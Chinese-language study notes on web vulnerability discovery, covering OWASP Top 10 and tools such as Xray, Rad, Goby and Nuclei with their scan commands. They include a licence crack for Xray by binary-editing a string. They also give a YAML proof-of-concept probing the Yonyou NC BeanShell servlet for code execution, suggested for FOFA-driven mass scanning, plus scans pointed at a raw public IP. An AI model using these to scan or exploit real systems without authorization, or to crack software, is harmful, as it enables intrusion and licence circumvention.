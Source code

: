 ## 漏洞挖掘
- 漏洞挖掘是指对用用程序中位置漏洞的探索, 通过综合应用应用各种技术和工具, 尽可能地找出其中的潜在漏洞. 一般情况下漏洞挖掘针对单一的应用系统, 通过端口扫描, 目录扫描, 文件扫描等方式对其进行信息收集, 然后再进行漏洞挖掘

### OWASP TOP 10
- 是由Web应用程序安全项目(OWASP)建立的公开共享的10给最关键的Web应用程序安全漏洞列表. 根据OWASP, 漏洞使应用程序中的一个弱点, 它允许恶意方(攻击者)对应用程序的利益相关者(所有者, 用户等)造成伤害

### 主流漏洞挖掘工具
- Burp Suite
- Sqlmap
- Xray
- AWVS
- Nessus
- Metasploit

---
## Xray
https://github.com/chaitin/xray
https://docs.xray.cool/#
- 不是开源，但是可以在github上下载编译好的程序包
- 检测速度快, 支持范围广, 代码质量高, 高级可定制, 安全无威胁

### XRAY破解
使用二进制编辑器打开xray, 修改`COMMUNITY`中的任意一个字符

### 爬虫模式
```shell
#完整
xray.exe webscan --basic-crawler http://testphp.vulnweb.com --html-output vulnweb.com-1.html

#简化
xray.exe ws --basic http://testphp.vulnweb.com/ --ho vulnweb.com-2.html
```

### 被动扫描
1. 生成ca证书 `xray.exe genca`
2. 开启监听 `xray.exe ws --listen 127.0.0.1:8031 --ho testphp.html`
3. 浏览器代理设置, 到监听的端口

### BP联动
1. BurpSuite: `User options`-->`Upstream Proxy Servers`-->`Add`, 添加监听的端口
2. XRAY: 开启对应端口的监听

### Rad联动
https://github.com/chaitin/rad/releases
```shell
# 手动登录, 开启一个浏览器供手动登录
rad -t https://www.hetianlab.com/ -wait-login
# 将爬取结果导出为文件
rad -t https://ww.hetianlab.com/  -text-output result.txt
# 与xray联动
xray.exe ws --listen 127.0.0.1:8031 --ho proxy.html
rad -t http://120.27.61.239:8007 --http-proxy 127.0.0.1:8031
# xray高级版，融合
xray ws --browser-crawler http://120.27.61.239:8007 --ho vuln.html
```

### POC脚本编写
https://stack.chaitin.com/techblog/detail?id=50
- 编写辅助工具: https://poc.xray.cool
- C:\windows\win.ini
- https://regex101.com
- 配合fofa, 扫描用友nc的servlet漏洞
	- `/servlet/~ic/bsh.servlet.BshServlet`
	- POST["bsh.script"]
	- https://cloud.tencent.com/developer/article/1839237
```yml
name: poc-yaml-用友NC-bsh.servlet.BshServlet
transport: http
set:
  r3: randomInt(5000, 6000)
rules:
  r0:
    request:
      method: GET
      path: /servlet/~ic/bsh.servlet.BshServlet
      follow_redirects: false
    expression: response.status == 200 && response.body.bcontains(bytes(string('BeanShell')))
  r1:
    request:
      cache: true
      method: POST
      path: /servlet/~ic/bsh.servlet.BshServlet
      follow_redirects: false
      headers:
        Content-Type: application/x-www-form-urlencoded
      body: bsh.script=print%28%22{{r3}}%22%29%3B
    expression: response.status == 200 && response.body.bcontains(bytes(string(r3)))
expression: r0() && r1()
detail:
  author: test
  links:
    - http://test.test
```
```shell
# 执行检测
xray ws -p mypocs/poc-yaml-用友NC-bsh.servlet.BshServlet.yml -uf url.txt --ho yongyou-nc.html
```

## Goby
可视化图形界面, 由Zwell打造. 探测网络空间存活IP及解析域名, 端口对应的协议, Mac地址, 证书, 应用产品, 厂商等信息. 自动爬取子域名, ACFR检测, 二级域名字典爆破, 关联域名查询. 支持连接FOFA, 插件打开xray, 截图判断网站系统应用. 首先下载Npcap数据捕获包, 安装完成后启动goby
- 官网下载: https://www.gobies.cn/#dl
- 注册地址: https://www.gobies.cn/signUp
- 临时邮箱: https://tempail.com/en/

## Nuclei
https://github.com/projectdiscovery/nuclei
基于YAML的DSL的快速可定制的漏洞扫描器
- 支持协议: TCP, DNS, HTTP, SSL, File, Whois, Websocket, Headless等
- 文档: https://nuclei.projectdiscovery.io/nuclei/get-started
- 模板: https://github.com/projectdiscovery/nuclei-tamplates
	- 更新漏洞模板 `nuclei -update-templates`